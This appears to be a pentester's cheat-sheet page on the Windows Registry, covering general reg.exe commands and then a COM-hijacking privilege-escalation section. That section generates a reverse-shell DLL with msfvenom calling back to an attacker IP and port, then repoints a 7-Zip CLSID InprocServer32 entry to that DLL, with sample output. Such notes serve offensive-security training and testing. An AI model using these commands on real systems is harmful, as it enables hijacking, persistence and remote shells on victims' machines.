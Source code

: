 ```yaml
---
title: "Registry"
date: 2025-7-24
tags: ["Windows", "Registry", "reg.exe", "Windows Internals", "Persistence", "COM Hijacking", "DLL Injection"]
---
```


### General

#### Key Hives

```console
HKEY_LOCAL_MACHINE (HKLM)     System-wide settings (SAM, SYSTEM, SOFTWARE, SECURITY)
HKEY_CURRENT_USER (HKCU)      Current user settings
HKEY_USERS (HKU)              All loaded user profiles
HKEY_CLASSES_ROOT (HKCR)      File associations, COM objects
HKEY_CURRENT_CONFIG (HKCC)    Current hardware config
```

#### Query Key

```console
# Displays all keys, subkeys, and values recursively
reg query <PATH> /s
```

```console {class="sample-code"}
# Display all keys, subkeys, and values under CLSID recursively
reg query HKCR\CLSID /s
```

```console
# Display all keys, subkeys, and values containing KEYWORD recursively
reg query <PATH> /s /f "<KEYWORD>"
```

```console {class="sample-code"}
# Display all keys, subkeys, and values containing KEYWORD under HKLM recursively
reg query HKLM /s /f "<KEYWORD>"
```

#### Add Key

```console
reg add <PATH>
```

#### Add Value

```console
reg add <PATH> /v <VALUE_NAME> /t <TYPE> /d <DATA> /f
```

```console {class="sample-code"}
reg add HKLM\SOFTWARE\MyNewKey /v MySetting /t REG_SZ /d "TestValue" /f
```

<br>

```console
REG_SZ          Text string
REG_EXPAND_SZ   String with environment variables
REG_DWORD       32-bit integer
REG_QWORD       64-bit integer
REG_BINARY      Binary data
REG_MULTI_SZ    Multiple strings
REG_NONE        Undefined data
```

#### Delete Key

```console
reg delete <PATH> /f
```

#### Export Hive

```console
reg save <HIVE> <DEST_PATH>
```

### Privesc #1: COM Hijacking

{{< tab set1 tab1 >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 1. Registry Enum

```console
# Query all CLSID entries recursively
reg query HKCR\CLSID /s
```

```console
# Query CLSID entries containing KEYWORD recursively
reg query HKCR\CLSID /s /f "<KEYWORD>"
```

```console {class="sample-code"}
PS C:\Windows\system32> reg query HKCR\CLSID /s /f "zip"
reg query HKCR\CLSID /s /f "zip"

HKEY_CLASSES_ROOT\CLSID\{2317---[SNIP]---20000}
    (Default)    REG_SZ    7-Zip Shell Extension

HKEY_CLASSES_ROOT\CLSID\{2317---[SNIP]---20000}\InprocServer32
    (Default)    REG_SZ    C:\Program Files\7-Zip\7-zip.dll

---[SNIP]---
```

#### 2. Create a Malicious DLL

```console
msfvenom -p windows/x64/shell_reverse_tcp -a x64 -f dll --platform windows LHOST=<LOCAL_IP> LPORT=<LOCAL_PORT> > rev.dll
```

```console {class="sample-code"}
$ msfvenom -p windows/x64/shell_reverse_tcp -a x64 -f dll --platform windows LHOST=10.10.10.10 LPORT=1337 > rev.dll
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of dll file: 9216 bytes
```

#### 2. Replace Default Value

```console
reg add "HKLM\Software\Classes\CLSID\<CLSID>\InprocServer32" /ve /d "<CUSTOM_DLL>" /f
```

```console {class="sample-code"}
PS C:\Windows\system32> reg add "HKLM\Software\Classes\CLSID\{2317---[SNIP]---20000}\InprocServer32" /ve /d "C:\programdata\rev.dll" /f
reg add "HKLM\Software\Classes\CLSID\{2317---[SNIP]---20000}\InprocServer32" /ve /d "C:\programdata\rev.dll" /f
The operation completed successfully.
```

{{< /tabcontent >}}
